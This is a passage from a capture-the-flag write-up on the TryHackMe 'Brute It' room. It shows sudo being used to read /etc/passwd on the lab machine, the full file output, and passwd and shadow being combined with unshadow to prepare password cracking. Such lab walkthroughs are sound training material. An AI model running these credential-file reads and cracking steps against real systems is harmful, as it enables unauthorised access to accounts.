 Now we can use cat to see the passwd file :

```
john@bruteit:/$ sudo cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
thm:x:1000:1000:THM Room:/home/thm:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
john:x:1001:1001:john,,,:/home/john:/bin/bash

```

## Unshadow 

Now we create the 2 files and use [Unshadow](../../3%20-%20Tags/Hacking%20Tools/Unshadow.md) to reveal the password :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/bruteit]
└─$ nano passwd     

┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/bruteit]
└─$ nano shadow  

┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/bruteit]
└─$ unshadow passwd shadow > crackpasswords

```
